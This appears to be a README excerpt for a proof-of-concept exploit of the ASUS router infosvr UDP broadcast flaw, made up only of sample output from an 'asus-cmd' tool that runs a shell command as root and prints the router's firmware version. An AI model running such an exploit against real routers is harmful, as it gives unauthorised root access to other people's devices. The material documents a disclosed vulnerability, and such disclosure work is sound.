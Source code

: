 ASUS Router infosvr UDP Broadcast root Command Execution
========================================================

```
$ ./asus-cmd "nvram show | grep -E '(firmver|buildno|extendno)'"
[*] opened sd 3 for outgoing comms
[*] opened sd 4 for incoming comms
[*] set SO_BROADCAST on outgoing
[*] set SO_BROADCAST on incoming
[*] sent command: nvram show | grep -E '(firmver|buildno|extendno)'
[!] received 512 bytes from 10.0.0.2:37625
    0c 15 0033 54ab7bc4 41:41:41:41:41:41
    0031 nvram show | grep -E '(firmver|buildno|extendno)'
[!] received 512 bytes from 10.0.0.1:9999
    0c 16 0033 54ab7bc4 xx:xx:xx:xx:xx:xx
    004e buildno=376
extendno_org=2524-g0013f52
extendno=2524-g0013f52
firmver=3.0.0.4
```
